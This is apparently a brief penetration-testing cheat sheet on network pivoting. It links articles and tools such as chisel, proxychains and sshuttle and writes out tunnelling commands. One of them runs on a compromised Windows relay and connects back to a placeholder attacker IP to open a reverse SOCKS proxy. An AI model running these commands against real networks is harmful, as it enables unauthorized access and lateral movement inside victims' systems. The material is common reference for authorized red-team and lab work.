 # Pivoting

## Articles

* [https://artkond.com/2017/03/23/pivoting-guide/](https://artkond.com/2017/03/23/pivoting-guide/)
* [https://orangecyberdefense.com/fr/insights/blog/ethical\_hacking/etat-de-lart-du-pivoting-reseau-en-2019/](https://orangecyberdefense.com/fr/insights/blog/ethical\_hacking/etat-de-lart-du-pivoting-reseau-en-2019/)
* [https://cheatsheet.haax.fr/network/pivot\_techniques/](https://cheatsheet.haax.fr/network/pivot\_techniques/)
* [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

## Tools

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
* [https://github.com/3proxy/3proxy](https://github.com/3proxy/3proxy)
* [https://github.com/haad/proxychains](https://github.com/haad/proxychains)
* [https://github.com/apenwarr/sshuttle](https://github.com/apenwarr/sshuttle)
* ```
  sshuttle -vvr user@10.10.10.10 10.1.1.0/24
  ```

## Socks Proxy (Chisel)

When trying to pivot through a Windows relay.

On attacker:

```
chisel server -p 4444 --reverse --socks5
```

On relay:

```
.\chisel.exe client <attacker ip>:4444 R:1080:socks
```

Don't forget to update /etc/proxychains4.conf:

```
socks5 127.0.0.1 1080
```
